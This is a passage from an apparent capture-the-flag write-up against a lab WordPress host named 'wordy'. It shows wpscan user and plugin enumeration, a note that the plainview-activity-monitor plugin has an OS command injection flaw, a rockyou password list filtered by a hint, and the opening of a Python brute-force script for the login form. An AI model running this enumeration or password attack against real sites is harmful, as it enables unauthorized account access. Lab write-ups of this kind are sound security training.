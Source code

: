 ```bash
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ...
```

I saved the users into a file to brute force later.

```bash
root@kali:~$ echo -e "admin\ngraham\njens\nmark\nsarah" > users.txt 
```

A further scan with wpscan reveals the **plainview-activity-monitor** plugin.

```bash
root@kali:~$ wpscan --url http://wordy/ --plugins-detection aggressive
...
[+] plainview-activity-monitor
 | Location: http://wordy/wp-content/plugins/plainview-activity-monitor/
 | Last Updated: 2018-08-26T15:08:00.000Z
 | Readme: http://wordy/wp-content/plugins/plainview-activity-monitor/readme.txt
 | [!] The version is out of date, the latest version is 20180826
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://wordy/wp-content/plugins/plainview-activity-monitor/, status: 200
 |
 | Version: 20161228 (50% confidence)
 | Found By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://wordy/wp-content/plugins/plainview-activity-monitor/readme.txt
...
```

A google search reveals that it is vulnerable to OS command injection, but to exploit this vulnerability we need to log in.

We use the hint in the description of the machine at the time of download it, which specifies that the password starts with **k01** in the rockyou.txt to brute force.

```bash
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz | grep 'k01' > passwords.txt
```

I developed the following python script to perform a dictionary attack against the wordpress login form.

```python
#!/usr/bin/env python3

import requests
import sys
import argparse
from colorama import init, Fore

parser = argparse.ArgumentParser(description='Wordpress brute forecer.')
parser.add_argument('--url', metavar='URL', help='Wordpress login url')
parser.add_argument('-l', metavar='USER', help='Wordpress user')
parser.add_argument('-L', metavar='USERFILE', help='Users file')
parser.add_argument('-P', metavar='PASSFILE', help='Password file')
args = parser.parse_args()

url = args.url
user = args.l
users_file = args.L
password_file = args.P

init()
green = Fore.GREEN
yellow = Fore.YELLOW
```